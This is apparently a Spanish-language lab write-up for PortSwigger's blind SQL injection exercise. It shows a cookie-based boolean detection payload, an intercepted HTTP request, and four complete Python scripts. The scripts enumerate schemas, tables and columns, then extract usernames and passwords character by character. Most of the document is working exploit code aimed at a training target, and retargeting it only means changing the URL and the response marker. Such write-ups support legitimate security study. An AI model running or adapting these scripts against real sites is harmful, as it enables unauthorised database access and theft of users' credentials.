








<p align="center">
  <kbd><b>DRINUX CYBERSEGURIDAD</b></kbd>
  <h3 align="center">Auditor:Drx === Gustavo Gutierrez Sanchez</h3>
</p>

<div align="center">
<h1> Guia de ejercicios Sqliblind</h1>
<p>
Esta guia principalmente se da solucion a los ejercicios abordados en la pagina portswingger seccion SQLI Blind.
</p>
</div>

## Laboratorio: SQL Injection (UNION Attack) - Lab 11
## Platforma: PortSwigger Web Security Academy

En este laboratorio practicamos una vulnerabilidad que se llama sqli blind con respuestas condicionales y el problema nos indica que tiene una tabla llamada **users** con columnas **username** y **password**

Primeramente debemos detectar la vulnerabilidad para esto vamos a usar el operado logigo **AND** para realizar una evaluacion numerica y tratar de forzar una respuesta en este caso **Welcome back**.

Comando:

```sql
TrackingId=gjDYiq8ruqJCW8H5'AND'1'='1;
```
Peticion Interceptada en burpsuite:

```bash
GET /filter?category=Tech+gifts HTTP/2
Host:web-security-academy.net
Cookie: TrackingId=gjDYiq8ruqJCW8H5'AND'1'='1; session=i6CwvR7uhGxyRsBXOj0MHApGFDVo88aM
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://web-security-academy.net/filter?category=Tech+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```


y ahora probamos con una comparacion falsa para ver si obtenemos la misma respuesta



Ya confirmamos que existe la vulnerabilidad ahora vamos a explotarla.

Para esto vamos a enumerar el nombre de las bases de datos 

Comando en burpsuite:

```sqli
'AND%20(SELECT%20SUBSTRING(schema_name,%201,%201)%20FROM information_schema.schemata%20LIMIT%201%20OFFSET%200)%20=%20'p'%20--;
```


El objetivo de esta guia es desmenuzar paso a paso la vulnerabilidad por eso se va a enumerar desde las bases de datos ya que el mismo ejercicio ya nos da el nombre de las tablas y columnas pero a qui se resolvera paso a paso.

Tras haber encontrado la primer letra de la primer posicion de las bases de datos iterar una por una se va a convertir en una eternidad asi que vamos a optimizar esto con **python**.

### 1.- Codigo para **enumeracion de bases de datos** con python:

```python
import requests

url = "https://web-security-academy.net/filter?category=Tech+gifts"
tracking = "ntAdCzP3LfeNbp77"
session_cookie = "5d6NpZd6qivrrxXyN3Wr5SYwERASc5fg"
registro = 0
basedatos_extraidas = [] 

print("[+] Extrayendo nombre de la base de datos...........")

while True:
    posicion = 1    
    nombrebd = ""  
    while True: 
        encontrada = False
        for caracter in range(32, 126):
            payload = (
                f"{tracking}' AND (SELECT ASCII(SUBSTRING(schema_name, {posicion}, 1)) "
                f"FROM information_schema.schemata "
                f"LIMIT 1 OFFSET {registro}) = {caracter} --"
            )
            cookies = {
                "TrackingId": payload,
                "session": session_cookie
            }
            respuesta = requests.get(url, cookies=cookies)
            if 'Welcome back' in respuesta.text:
                nombrebd += chr(caracter) 
                print(f"[+]Posicion{posicion}:{caracter}")
                posicion += 1                
                encontrada = True            
                break                        
        if not encontrada:
            break 
    if nombrebd != "":
        print(f"[+] Base encontrada [Indice {registro}]: {nombrebd}")
        basedatos_extraidas.append(f"{registro} -> {nombrebd}")
        registro += 1 
    else:
        print("\n[-] No se encontraron mas registros en la base de datos.")
        break
print("\n==============================")
print("   Bases extraidas ")
print("==============================")
for base in basedatos_extraidas:
    print(base)
```
### Codigo ejecutado bases de datos extraidas:


### 2.- Codigo para **enumeracion de tablas** con python:

```python
import requests

url = "https://web-security-academy.net/filter?category=Tech+gifts"

tracking = "ntAdCzP3LfeNbp77"
session_cookie = "5d6NpZd6qivrrxXyN3Wr5SYwERASc5fg"
registro = 0
tablas_extraidas = [] 

print("[+] Extrayendo nombre de las tablas...........")

while True:
    posicion = 1    
    nombretabla = ""  
    while True: 
        encontrada = False 
        for caracter in range(32, 126):
            
            payload = (
                f"{tracking}' AND (SELECT ASCII(SUBSTRING(table_name,{posicion},1)) "
                f"FROM information_schema.tables LIMIT 1 OFFSET {registro})={caracter} -- -"
            )
            
            cookies = {
                "TrackingId": payload,
                "session": session_cookie
            }
            
            respuesta = requests.get(url, cookies=cookies)

            if "Welcome back" in respuesta.text:
                nombretabla += chr(caracter) 
                print(f"[+]Posicion{posicion}:{caracter}")
                posicion += 1                
                encontrada = True            
                break                        
        
        if not encontrada:
            break 
    if nombretabla != "":
        print(f"[+] Tabla encontrada [Indice {registro}]: {nombretabla}")
        tablas_extraidas.append(f"{registro} -> {nombretabla}")
        registro += 1 
    else:
      
        print("\n[-] No se encontraron mas registros en la base de datos.")
        break
print("\n==============================")
print("   Tablas extraidas ")
print("==============================")
for tabla in tablas_extraidas:
    print(tabla)
```
### Codigo ejecutado tablas extraidas:


### 3.- Codigo para **enumeracion de columnas** con python:

```python
import requests


url = "https://web-security-academy.net/filter?category=Tech+gifts"
tracking = "oJbkYywlkHOfmzIn"
session_cookie = "sw2UdMQMnC0nMO7FptuQmODVpw1jr6Z0"
tabla_encontrada = "users"
registro = 0
columnas = [] 

print("[+] Extrayendo nombre de las columnas...........")

while True:
    posicion = 1    
    nombrecolumna = ""  
    while True: 
        encontrada = False 
        
        for caracter in range(32, 126):
            payload = (
                f"{tracking}' AND (SELECT ASCII(SUBSTRING(column_name,{posicion},1)) "
                f"FROM information_schema.columns WHERE table_name='{tabla_encontrada}' LIMIT 1 "
                f"OFFSET {registro})={caracter} -- -"
            )
            cookies = {
                "TrackingId": payload,
                "session": session_cookie
            }
            respuesta = requests.get(url, cookies=cookies)

            if "Welcome back" in respuesta.text:
                nombrecolumna += chr(caracter) 
                print(f"[+]Posicion{posicion}:{caracter}")
                posicion += 1                
                encontrada = True            
                break                        
        
        if not encontrada:
            break 
    if nombrecolumna != "":
        print(f"[+] Columna encontrada [Indice {registro}]: {nombrecolumna}")
        columnas.append(f"{registro} -> {nombrecolumna}")
        registro += 1 
    else:
      
        print("\n[-] No se encontraron mas columnas.")
        break
print("\n==============================")
print(f"   Columnas extraidas de {tabla_encontrada}")
print("==============================")
for columna in columnas :
    print(columna)
```

### Codigo ejecutado columnas extraidas extraidas:



### 4.- Codigo para **extraer informacion de columnas** con python:

```python
import requests

url = "https://web-security-academy.net/filter?category=Tech+gifts"

tracking = "oJbkYywlkHOfmzIn"
session_cookie = "sw2UdMQMnC0nMO7FptuQmODVpw1jr6Z0"
tabla_encontrada = "users"
columnas_encontradas = ["username", "password"]
registro = 0
credenciales_extraidas = []

print(f"[+] Extrayendo informacion de la tabla '{tabla_encontrada}'...\n")

while True:
    datos_registro = {}
    al_menos_una_columna_tiene_datos = False
    for columna in columnas_encontradas:
        posicion = 1    
        dato_columna = ""  
        while True: 
            encontrado = False 
            for caracter in range(32, 126):
                payload = (
                    f"{tracking}' AND (SELECT ASCII(SUBSTRING({columna},{posicion},1)) "
                    f"FROM {tabla_encontrada} LIMIT 1 "
                    f"OFFSET {registro})={caracter} -- -"
                )
                cookies = {
                    "TrackingId": payload,
                    "session": session_cookie
                }
                respuesta = requests.get(url, cookies=cookies)

                if "Welcome back" in respuesta.text:
                    dato_columna += chr(caracter)
                    print(f"[+]Posicion{posicion}:{caracter}") 
                    posicion += 1                
                    encontrado = True            
                    break                        
            if not encontrado:
                break 
        datos_registro[columna] = dato_columna
        
        if dato_columna != "":
            al_menos_una_columna_tiene_datos = True
    if not al_menos_una_columna_tiene_datos:
        print("\n[-] No se encontro mas informacion. Fin de la tabla alcanzado.")
        break
    user = datos_registro.get("username", "No encontrado")
    passwd = datos_registro.get("password", "No encontrado")
    print(f"[+] Registro {registro} extraido -> Usuario: {user} | Password: {passwd}")
    
    credenciales_extraidas.append(f"Usuario: {user}  <--->  Password: {passwd}")
    registro += 1
print("\n==================================================")
print(f"   CREDENCIALES EXTRAIDAS DE '{tabla_encontrada.upper()}'")
print("==================================================")
for credencial in credenciales_extraidas:
    print(credencial)

```
### Codigo ejecutado extraccion de informacion de columnas:



